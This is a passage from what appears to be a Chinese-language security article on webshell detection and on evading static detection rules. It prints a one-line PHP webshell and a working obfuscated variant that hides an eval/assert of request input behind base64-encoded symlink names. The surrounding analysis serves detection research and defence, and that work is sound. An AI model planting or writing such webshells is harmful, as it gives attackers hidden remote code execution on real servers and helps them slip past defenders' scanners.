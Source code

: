   * passthru
  * shell\_exec
  * \`\`
* 通过数据库相关操作获取外部可控参数

举一个具体的例子来说：

![](http://p8.itc.cn/q_70/images03/20200731/251fb2e22c994107bfba9fe21248f805.png)

4.4、 **外部参数依赖下的条件跳转**

![](http://p0.itc.cn/q_70/images03/20200731/ab17eae07cd8468fbc0a071fd9977455.png)

条件表达式依赖实际的攻击者传入，对于旁路离线检测，最大的挑战在于，因为缺少对应的参数，会陷入所谓的【分支覆盖问题】。

### 5、攻击静态检测规则

攻击静态检测规则就是我们常说的，绕过某某厂商的正则检测黑规则。这类攻击方式业内讨论的文章已经非常多了，笔者在这里不再赘述。

笔者希望在这里阐述一个攻击静态检测规则的方法论，即【 **利用冗余可约分性进行样本变形**】。

观察如下3个表达式，将其视作webshell样本的一个逻辑抽象版本：

```php
((X+6)+Y)+X + (if( (X*Y)>0 ){X}else{X} + X*X) + (X + (Y - (X + if(6>0){1}else{0})) )
```

\# X\*Y恒大于0，故可约简为：

```php
2*X + Y + 6 + X + X**2 + (X + (Y - (X + if(6>0){1}else{0})) )
```

\# 6恒大于0，故可约简为：

```php
2*X + Y + 6 + X + X**2 + X + Y - X + 1
```

最后约简得到：

```php
X**2 + 3*X + 2*Y + 5
```

从最终结果，也就是功能上，上面3个表达式是相等的。

如果将最后一个表达式视为一个最精简版的webshell，例如：

```php
<?php eval($_POST[1]);?>
```

根据冗余可约简规律，实现同样功能的这个代码，可以有无限多种扩展，这是不可枚举的。

例如：

```php
<?php
link(__FILE__, 'ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTsK');
link(__FILE__, 'YXNzZXJ0Cg==');
$d = substr(readlink('ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTsK'), -32);
$e = substr(readlink('YXNzZXJ0Cg=='), -12);
$e = base64_decode($e);
$b = $e[0].'ssert';
$b(base64_decode($d));
unlink('ZXZhbCgkX1JFUVVFU1RbJ2NtZCddKTsK');
unlink('YXNzZXJ0Cg==');
```
